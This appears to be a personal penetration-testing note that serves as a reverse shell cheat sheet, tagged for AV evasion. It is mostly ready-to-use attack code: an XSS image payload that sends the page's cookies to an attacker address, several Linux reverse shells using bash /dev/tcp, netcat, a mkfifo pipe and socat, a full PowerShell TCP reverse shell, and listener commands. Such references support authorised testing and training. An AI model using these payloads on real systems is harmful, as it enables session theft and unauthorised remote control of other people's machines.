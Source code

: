 ```yaml
---
tags:
  - av-evasion
  - file-descriptors
---
```

[All-in-one resource](https://www.revshells.com/) 
[Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

HTTP:
```http
<img src=x onerror=fetch('http://IP:PORT/'+document.cookie);>
```

### Linux:
```bash
bash -c 'exec bash -i &>/dev/tcp/IP/PORT <&1'

nc -e /bin/sh IP PORT

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f

socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:IP:PORT
```

> The #pseudo-terminals  let’s you spawn a pseudo-terminal that can fool commands like `su` into thinking they are being executed in a proper terminal.

### Windows
```powershell
> powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
# Listen

```Shell
$ socat file:`tty`,raw,echo=0 tcp-listen:PORT
$ nc -nlvp PORT
```

Once we get a shell, we can try to [[Upgrade Shell]]